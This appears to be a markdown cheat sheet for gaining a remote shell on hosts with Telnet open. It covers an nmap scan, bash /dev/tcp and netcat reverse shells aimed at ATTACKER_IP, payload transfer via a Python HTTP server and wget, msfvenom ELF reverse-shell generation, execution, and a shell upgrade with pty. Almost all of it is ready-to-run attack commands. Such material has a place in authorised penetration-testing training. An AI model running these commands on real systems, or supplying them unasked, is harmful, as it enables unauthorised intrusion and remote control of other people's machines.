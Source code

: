 ## 1. 🕳️ Scan for Telnet Access

Check if Telnet (port 23) is open:

```bash
nmap -p 23 -sV <target-ip>
---

## 2. 📤 Sending a File Over Telnet

Telnet doesn't support file transfers directly, but you can work around that.

### Option A: Manually Echo Payload

Create a basic bash reverse shell:

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > shell.sh
```

Use Telnet to echo it line-by-line on the target:

```bash
telnet <target-ip> 23
```

Then run:

```sh
echo '#!/bin/bash' > shell.sh
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> shell.sh
chmod +x shell.sh
```

### Option B: Transfer File with HTTP Server

On attacker machine:

```bash
python3 -m http.server 8000
```

Target (from Telnet shell):

```bash
wget http://ATTACKER_IP:8000/shell.sh -O /tmp/shell.sh
chmod +x /tmp/shell.sh
```

---

## 3. 🎯 Netcat Payload

Netcat can be used directly without generating complex payloads.

### ➤ Start a Netcat Listener

```bash
nc -lvnp 4444
```

### ➤ Create and Run Netcat Payload on Target

From Telnet shell:

```bash
nc ATTACKER_IP 4444 -e /bin/bash
```

> ⚠️ If `nc` does not support `-e`, try `ncat` or use a bash reverse shell.

If `-e` is not supported, use:

```bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

## 4. 🧨 Creating Payloads with `msfvenom`

### ➤ List All Available Payloads

```bash
msfvenom -l payloads
```

To narrow it down (Linux shells):

```bash
msfvenom -l payloads | grep linux
```

---

### ➤ Generate ELF Reverse Shell Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > rev.elf
chmod +x rev.elf
```

### ➤ Transfer to Target

```bash
python3 -m http.server 8000
```

From Telnet shell:

```bash
wget http://ATTACKER_IP:8000/rev.elf -O /tmp/rev.elf
chmod +x /tmp/rev.elf
```

---

## 5. 🚪 Execute Payload

Start listener:

```bash
nc -lvnp 4444
```

Then on the target (via Telnet):

```bash
/tmp/shell.sh
# or
/tmp/rev.elf
```

---

## 6. 🛠️ Post-Exploitation

Upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate:

```bash
uname -a
id
whoami
```